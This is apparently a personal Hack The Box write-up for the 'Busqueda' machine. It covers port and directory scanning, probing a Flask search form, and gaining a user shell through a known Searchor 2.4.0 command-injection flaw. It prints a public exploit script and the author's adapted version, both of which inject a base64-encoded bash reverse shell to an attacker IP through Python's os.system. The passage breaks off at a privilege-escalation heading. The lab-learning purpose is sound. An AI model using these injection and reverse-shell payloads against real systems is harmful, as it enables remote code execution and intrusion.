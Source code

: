 ```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-30 19:38 EDT
Nmap scan report for 10.10.11.208
Host is up (0.025s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.52
Service Info: Host: searcher.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 43.08 seconds
```

```
gobuster dir -u http://searcher.htb/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

found: /search

gobuster dir -u http://searcher.htb/search/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

found: nothing
```

nothing is being found..... im going to scan UDP ports see if anything is there:
```
sudo nmap -sU -Pn --top-ports 100 -T3 10.10.11.208
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-30 19:54 EDT
Nmap scan report for searcher.htb (10.10.11.208)
Host is up (0.024s latency).
Not shown: 99 closed udp ports (port-unreach)
PORT   STATE         SERVICE
68/udp open|filtered dhcpc

Nmap done: 1 IP address (1 host up) scanned in 107.82 seconds

```
OOOO
but it is filtered so this will be a last resort.....

I checked back at the website:

and sent the post request to the repeater, 

i saw if i add a ' character to the query parameter that i wasnt getting the response i expected:
```
engine=Google&query=pwned

translates to:
https://www.google.com/search?q=pwned

but if i do:
engine=Google&query=pwned'

i get nothing just a 200
```
hmmmmm, possible server side injection????

Lets try out some other things:
```
pwned'%2bprint('pwned')%2b
```

still nothing just a 200....

not to good at injecting, im gonna look for a vuln to :
`Powered by [Flask](https://flask.palletsprojects.com) and [Searchor 2.4.0](https://github.com/ArjunSharda/Searchor)`

as this is at the bottom of the home page:
`searchsploit searchor`

nothing.....

let me google....

pays to keep digging!
https://github.com/nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection

this is exactly the version running and was the first thing to pop up lol

check the code to make sure im not getting hacked myself hacking htb...
```
#!/bin/bash -

default_port="9001"
port="${3:-$default_port}"
rev_shell_b64=$(echo -ne "bash  -c 'bash -i >& /dev/tcp/$2/${port} 0>&1'" | base64)
evil_cmd="',__import__('os').system('echo ${rev_shell_b64}|base64 -d|bash -i')) # junky comment"
plus="+"

echo "---[Reverse Shell Exploit for Searchor <= 2.4.2 (2.4.0)]---"

if [ -z "${evil_cmd##*$plus*}" ]
then
    evil_cmd=$(echo ${evil_cmd} | sed -r 's/[+]+/%2B/g')
fi

if [ $# -ne 0 ]
then
    echo "[*] Input target is $1"
    echo "[*] Input attacker is $2:${port}"
    echo "[*] Run the Reverse Shell... Press Ctrl+C after successful connection"
    curl -s -X POST $1/search -d "engine=Google&query=${evil_cmd}" 1> /dev/null
else 
    echo "[!] Please specify a IP address of target and IP address/Port of attacker for Reverse Shell, for example: 

./exploit.sh <TARGET> <ATTACKER> <PORT> [9001 by default]"
fi
```

CLEAN!

lets send it :
```
./searchor.sh 10.10.11.208 10.10.14.3
---[Reverse Shell Exploit for Searchor <= 2.4.2 (2.4.0)]---
[*] Input target is 10.10.11.208
[*] Input attacker is 10.10.14.3:9001
[*] Run the Reverse Shell... Press Ctrl+C after successful connection
```

Didn't work, so i went back in the website and was messing around, looks like it needs to be URL-encoded for it to work, so i just made things simple and used my own code that i took from our boy above, shout out him:
```
#!/bin/bash -

rev_shell_b64=$(echo -ne "bash -i >& /dev/tcp/10.10.14.3/9001 0>&1" | base64)
evil_cmd="',__import__('os').system('echo ${rev_shell_b64}|base64 -d|bash -i')) #"
url_encoded_cmd=$(python3 -c "import urllib.parse; print(urllib.parse.quote(\"${evil_cmd}\"))")

echo "[*] Run the Reverse Shell... Press Ctrl+C after successful connection"
curl -s -X POST http://searcher.htb/search -d "engine=Google&query=${url_encoded_cmd}"
```

:D

```
svc@busqueda:~$ cat user.txt
cat user.txt
c43f6be03dc7e0f171c552****
```

USER PWNED!
*Took a lil longer than expected but lets be real this was for sure the exploit, so i was for sure going down this bunny hole*

---

### PRIV ESC

